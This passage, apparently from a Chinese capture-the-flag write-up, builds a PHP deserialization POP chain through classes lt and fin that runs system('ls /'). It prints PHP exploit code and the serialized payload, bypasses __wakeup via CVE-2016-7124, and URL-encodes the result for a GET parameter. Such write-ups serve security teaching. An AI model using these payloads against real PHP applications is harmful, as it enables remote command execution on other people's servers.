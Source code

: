 构造过程（逆推法）：

1. 先要达到的目的是查看根目录有什么，则需执行 `system("ls /")`
2. 要执行此代码，则需通过**fin** 中的 **fmm** 方法构造可变函数
3. 需要调用 **fin** 中的 **fmm** 方法，可以借助 **lt** 中的 **__toString** 方法（`$this->impo->fmm()`）
4. 要保证 **fin** 被正常调用，则 `__wakeup()` 方法 ==必须失效==（CVE-2016-7124）
5. 需要调用 **lt** 中的 **__toString** ，可以借助 **lt** 中的 **__destruct** 方法（`echo $this`）
6. 入口为 **lt** 中的 **__destruct** 方法

完整的POP链：`lt::__destruct() -> lt::__toString() -> fin::fmm()`

根据POP链，为可控变量赋值，得到以下exp：

```php
<?php
class lt
{
   public $impo;
   public $md51;
   public $md52;
}

class fin
{
   public $a;
   public $url;
   public $title;
}

//以上代码都是抄的类和类中的变量

$a = new lt;
$b = new fin;
$a->impo=$b;
$a->md51=array(1);
$a->md52=array(2);
$b->a = "system"; //可变函数的函数名
$b->title = "ls /"; // 可变函数的参数
echo serialize($a);

?>
```

得到：`O:2:"lt":3:{s:4:"impo";O:3:"fin":3:{s:1:"a";s:6:"system";s:3:"url";N;s:5:"title";s:4:"ls /";}s:4:"md51";a:1:{i:0;i:1;}s:4:"md52";a:1:{i:0;i:2;}}`

通过修改序列化成员数，使其大于实际的成员数，即可绕过wakeup，得到：`O:2:"lt":7:{s:4:"impo";O:3:"fin":3:{s:1:"a";s:6:"system";s:3:"url";N;s:5:"title";s:4:"ls /";}s:4:"md51";a:1:{i:0;i:1;}s:4:"md52";a:1:{i:0;i:2;}}`

保险起见，urlencode一下：`O%3A2%3A%22lt%22%3A7%3A%7Bs%3A4%3A%22impo%22%3BO%3A3%3A%22fin%22%3A3%3A%7Bs%3A1%3A%22a%22%3Bs%3A6%3A%22system%22%3Bs%3A3%3A%22url%22%3BN%3Bs%3A5%3A%22title%22%3Bs%3A4%3A%22ls%20%2F%22%3B%7Ds%3A4%3A%22md51%22%3Ba%3A1%3A%7Bi%3A0%3Bi%3A1%3B%7Ds%3A4%3A%22md52%22%3Ba%3A1%3A%7Bi%3A0%3Bi%3A2%3B%7D%7D`

参数名为NSS，用GET传参，得到根目录下文件：
